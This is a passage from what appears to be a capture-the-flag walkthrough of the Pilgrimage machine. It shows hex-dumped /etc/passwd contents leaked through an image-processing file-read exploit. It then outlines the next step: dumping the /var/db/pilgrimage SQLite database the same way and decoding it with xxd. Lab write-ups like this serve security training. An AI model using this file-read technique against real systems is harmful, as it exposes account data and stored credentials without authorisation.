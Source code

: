 ```
75703a783a33343a33343a6261636b75703a2f7661722f6261636b7570733a2f7573722f
7362696e2f6e6f6c6f67696e0a6c6973743a783a33383a33383a4d61696c696e67204c69
7374204d616e616765723a2f7661722f6c6973743a2f7573722f7362696e2f6e6f6c6f67
696e0a6972633a783a33393a33393a697263643a2f72756e2f697263643a2f7573722f73
62696e2f6e6f6c6f67696e0a676e6174733a783a34313a34313a476e617473204275672d
5265706f7274696e672053797374656d202861646d696e293a2f7661722f6c69622f676e
6174733a2f7573722f7362696e2f6e6f6c6f67696e0a6e6f626f64793a783a3635353334
3a36353533343a6e6f626f64793a2f6e6f6e6578697374656e743a2f7573722f7362696e
2f6e6f6c6f67696e0a5f6170743a783a3130303a36353533343a3a2f6e6f6e6578697374
656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d6e6574776f72
6b3a783a3130313a3130323a73797374656d64204e6574776f726b204d616e6167656d65
6e742c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c6f67696e
0a73797374656d642d7265736f6c76653a783a3130323a3130333a73797374656d642052
65736f6c7665722c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f
6c6f67696e0a6d6573736167656275733a783a3130333a3130393a3a2f6e6f6e65786973
74656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d74696d6573
796e633a783a3130343a3131303a73797374656d642054696d652053796e6368726f6e69
7a6174696f6e2c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c
6f67696e0a656d696c793a783a313030303a313030303a656d696c792c2c2c3a2f686f6d
652f656d696c793a2f62696e2f626173680a73797374656d642d636f726564756d703a78
3a3939393a3939393a73797374656d6420436f72652044756d7065723a2f3a2f7573722f
7362696e2f6e6f6c6f67696e0a737368643a783a3130353a36353533343a3a2f72756e2f
737368643a2f7573722f7362696e2f6e6f6c6f67696e0a5f6c617572656c3a783a393938
3a3939383a3a2f7661722f6c6f672f6c617572656c3a2f62696e2f66616c73650a

    signature: d02a8da86fec6ef80c209c8437c76cf8fbecb6528cd7ba95ef93eecc52a171c7
```

If we convert this to text, we would get the `/etc/passwd` file, meaning it worked:

<figure><img src="../../.gitbook/assets/image (1392).png" alt=""><figcaption></figcaption></figure>

Now we can replace the file with `/var/db/pilgrimage`. This would give us a humongous hex output, and after removing the irrelevant parts, we can convert it using `xxd` to get a SQLite file.&#x20;
